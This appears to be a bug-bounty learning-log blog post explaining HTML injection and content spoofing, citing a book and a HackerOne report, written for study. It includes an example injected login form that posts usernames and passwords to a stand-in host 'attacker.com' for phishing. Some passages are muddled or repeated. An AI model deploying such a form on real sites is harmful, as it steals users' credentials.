 ```yaml
---
title:  "Day 4/100 Hack and Improvement"
date: 2020-05-04
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day4/header.jpg"
---
```


Day 4 from **100daysofhackandimprove** comes with a variety of vulnerabilities which includes HTML Injection, Content Spoofing, Carriage Return Line Feed Injection (CRLF), and (rajesh place). Among the time, web vulnerabilities will always be impressive which will need a strong support from the attackers creativity and skills. This post for day 4 will be strongly supported by the content that has been gotten from [Real-World Bug Hunting](https://www.amazon.com/Real-World-Bug-Hunting-Field-Hacking-ebook/dp/B072SQZ2LG). [Rajesh Ranjan](https://twitter.com/eh_rajesh) has gathered and studied different resources in order to improve testing skills for SSRF. 

## HTML Injection and Content Spoofing

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_), These attacks allow malicious users to inject content in the target's website. The attacker can inject HTML elements in order to design their attacks. As an example, attackers use the ```<form>``` tag which mimics a screen login. 

### HTML Injection

HTML injection occurs when a website allows an attacker to submit html tags, typically by some kind of  input form or URL parameters, once the HTML tags are submitted, the target's website proceeds to render the site with the attacker's tags. This kind of attack can lead to different kind of phishing activities. The HTML code below will create a input form which is suppose to trick the victim to send their sensitive data such as passwords and usernames to the attacker's site as the example down below. 
```html
<form method='POST' action='http://attacker.com/capture.php' id='login-form'>
      <input type='text' name='username' value=''>
      <input type='password' name='password' value=''>
      <input type='submit' value='submit'>
   </form>
```

### Content Spoofing

This kind of attack is very similar to HTML injection, it differs because the attackers can just inject plain text, not HTML tags. This limitation is typically caused by sites either escaping any included HTML or HTML tags being stripped when the server sends the HTTP response.

### Write Ups and Examples
### HTML Injection

[**COINBASE COMMENT INJECTION THROUGH CHARACTER ENCODING**](https://hackerone.com/reports/104543/)

If you're interested to check the full video, you have to check the write up. In this, the website was filtering HTML tags to defend against this attack, then in this, the website was filtering HTML tags to defend against this attack. If you're interested in encoded values [here](https://gchq.github.io/CyberChef/) you can find a swiss knife to encode and decode different values.
